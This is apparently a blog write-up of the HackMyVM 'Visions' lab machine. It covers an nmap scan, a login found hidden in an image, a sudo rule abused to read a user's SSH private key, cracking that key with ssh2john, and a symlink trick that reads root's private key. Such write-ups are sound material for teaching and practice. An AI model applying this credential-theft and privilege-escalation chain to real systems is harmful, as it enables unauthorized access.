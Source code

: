 ```yaml
---
layout: post
author: maxin
title:  "Visions"
date:   2022-01-01 09:08:02 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Visions)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Tue Dec 28 15:39:17 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.213
Nmap scan report for 192.168.0.213
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 85:d0:93:ff:b6:be:e8:48:a9:2c:86:4c:b6:84:1f:85 (RSA)
|   256 5d:fb:77:a5:d3:34:4c:46:96:b6:28:a2:6b:9f:74:de (ECDSA)
|_  256 76:3a:c5:88:89:f2:ab:82:05:80:80:f9:6c:3b:20:9d (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 15:39:25 2021 -- 1 IP address (1 host up) scanned in 7.74 seconds
{% endhighlight  %}

## Port 80

Source-code of the page has a comment

{% highlight text  %}
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 
{% endhighlight  %}

The final of the page

{% highlight text  %}
<img src="white.png">
{% endhighlight  %}

We can wget this page and analyse with gimp

{% highlight bash  %}
wget $IP/white.png
{% endhighlight  %}

Change the Color Curves we can see a credencial

![Untitled](/images/visions/gimp.png)

{% highlight text  %}
sophia:seemstobeimpossible
{% endhighlight  %}

## User

{% highlight bash  %}
ssh sophia@$IP 
{% endhighlight  %}

{% highlight bash  %}
sudo -l

User sophia may run the following commands on visions:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
{% endhighlight  %}

Getting the .invisible file we can see it’s a private key

Crack the private key using ssh2john

{% highlight bash  %}
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
password = invisible
{% endhighlight  %}

Make a ssh to isabella user using this private key

## Root

Delete the .invisible file and create a symbolic link to root’s private key

![Untitled](/images/visions/root1.png)

And with sophia cat the .invisible file

![Untitled](/images/visions/root2.png)

Root id_rsa
